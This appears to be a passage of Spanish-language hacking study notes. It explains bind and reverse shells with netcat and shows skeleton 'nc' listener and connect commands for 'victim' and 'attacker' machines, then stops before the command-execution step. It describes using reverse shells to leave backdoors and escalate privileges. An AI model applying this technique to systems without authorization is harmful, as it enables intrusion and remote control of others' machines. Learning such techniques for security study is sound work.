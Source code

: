 
Tipos de protocolos:

![Capas](protocolos.jpg)

[Fuente:IBM](https://www.ibm.com/docs/es/aix/7.1?topic=protocols-internet-application-level)


> Remote Shell: 
  - Realizar una conexión entre dos equipos que permita ejecutar código remoto.
  - Existen dos tipos:
    - Bind
    - Reverse

[Fuente: sniferl](https://sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell-with-netcat/).


Bind Shell: Lo que hace es dejar un puerto a la escucha, y el atacante se conecta.

Reverse Shell o Connect Back: Es que la victima se conecta al atacante.

El uso de las Reverse Shell, es el de ejecutar comandos de manera remota, y a partir de ello dejar una puerta trasera, obtener privilegios por medio de un escalamiento por decirlo asi lo que veremos a continuación es algunas formas y manera de obtener acceso a un equipo remoto, lo mismo de la Bind Shell muchas veces se recomienda mas el uso de una Bind Shell que la Reverse shell pero llega a ser un poco mas complicado realizarlo, ya que por las reglas de firewall y adicionales nos limita a realizar dicho trabajo.

Cabe resaltar que necesitamos contar con nc o ncat en la pc victima, como lo indicaba al inicio haremos unicamente uso de nc, ncat cabe resaltar que es independiente el sistema operativo atacante

Reverse Shell
Lo que haremos en el equipo comprometido sera ejecutar el siguiente comando:

Victima: Conexión externa.

```rb
nc -nv
```

Atacante: Escucha sobre TCP

```rb
nc -lvp
```


 Si lo ejecutamos sin la bandera -e unicamente tenemos un canal de comunicación de punto a punto siendo este un simple chat por mencionarlo asi, siendo este una conexión TCP el mismo lo vemos anteriormente, entonces si deseamos tener una conexión que nos permita ejecutar comandos debemos de realizar lo siguiente tanto en Windows como en Linux se pasa a describir.
